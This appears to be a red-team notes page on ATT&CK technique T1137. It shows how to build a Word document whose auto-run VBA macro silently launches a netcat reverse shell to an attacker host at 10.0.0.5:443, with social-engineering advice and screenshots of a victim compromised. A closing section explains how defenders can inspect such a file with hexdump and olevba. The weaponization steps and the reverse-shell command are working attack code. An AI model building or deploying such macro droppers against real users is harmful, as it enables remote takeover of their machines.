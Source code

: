 ```yaml
---
description: Code execution
---
```


# T1137: Office Macros

This technique will build a primitive word document that will auto execute the VBA Macros code once the Macros protection is disabled.

## Weaponization

1. Create new word document \(CTRL+N\)
2. Hit ALT+F11 to go into Macro editor
3. Double click into the "This document" and CTRL+C/V the below:

{% code-tabs %}
{% code-tabs-item title="macro" %}
```javascript
Private Sub Document_Open()
  MsgBox "game over", vbOKOnly, "game over"
  a = Shell("C:\tools\shell.cmd", vbHide)
End Sub
```
{% endcode-tabs-item %}
{% endcode-tabs %}

{% code-tabs %}
{% code-tabs-item title="C:\\tools\\shell.cmd" %}
```bash
C:\tools\nc.exe 10.0.0.5 443 -e C:\Windows\System32\cmd.exe
```
{% endcode-tabs-item %}
{% endcode-tabs %}

This is how it should look roughly:

![](../.gitbook/assets/macros-code.png)

ALT+F11 to switch back to the document editing mode and add a flair of social engineering like so:

![](../.gitbook/assets/macros-body%20%281%29.png)

Save the file as a macro enabled document, for example a Doc3.dotm:

![](../.gitbook/assets/macros-filename.png)

{% file src="../.gitbook/assets/doc3.dotm" caption="Dot3.dotm - Word Document with Embedded VBA Macros" %}

## Execution

Victim launching the Doc3.dotm:

![](../.gitbook/assets/macro-victim.png)

...and enabling the content - which gives the attacker a reverse shell:

![](../.gitbook/assets/macro-shell.png)

## Observations

The below graphic represents the process ancestry and what happened after the victim had clicked the "Enable Content" button in our malicious Doc3.dotm document:

![](../.gitbook/assets/macro-ancestry.png)

## Inspection

If you received a suspicious Office document and do not have any malware analysis tools, hopefully at least you have access to a ZIP and Strings utility or any type of Hex Editor to hand. 

Since Office files are essentially ZIP archives \(PK magic bytes\):

```bash
root@remnux:/home/remnux# hexdump -C Doc3.dotm | head -n1
00000000  50 4b 03 04 14 00 06 00  08 00 00 00 21 00 cc 3c  |PK..........!..<|
```

...the file can be renamed to **Doc3.zip** and simply unzipped like a regular archive. Doing so deflates the archive and reveals the files that make up the suspicious office file. Files include `document.xml` which is where the main document body text goes and `vbaProject.bin` containing the evil macros:

![](../.gitbook/assets/macros-deflated.png)

Looking inside the `document.xml`, we can see the body copy we inputted at the very begging of this page in the [Weaponization](t1137-office-vba-macros.md#weaponization) section:

![](../.gitbook/assets/macros-document-unzipped.png)

Additionally, if you have the strings or a hex dumping utility, you can pass the `vbaProject.bin` through. This can sometimes give enough to determine if the document is suspicious. 

I ran `hexdump -C vbaProject.bin` which clearly revealed some fragmented keywords that should immediately raise your suspicion - keywords included: **Shell, Hide, Sub\_Open** and something that looks like a file path:

![](../.gitbook/assets/macros-hex-shell.png)

If you have a malware analysis linux distro Remnux, you can easily inspect the VBA macros code contained in the document by issuing the command `olevba.py filename.dotm`. As seen below, the command nicely decodes the `vbaProject.bin`  and reveals the actual code as well as provides some interpretation of the commands found in the script:

![](../.gitbook/assets/macros-olevba.png)

{% embed data="{\"url\":\"https://attack.mitre.org/wiki/Technique/T1137\",\"type\":\"link\",\"title\":\"Office Application Startup - ATT&CK for Enterprise\",\"icon\":{\"type\":\"icon\",\"url\":\"https://attack.mitre.org/favicon.ico\",\"aspectRatio\":0}}" %}

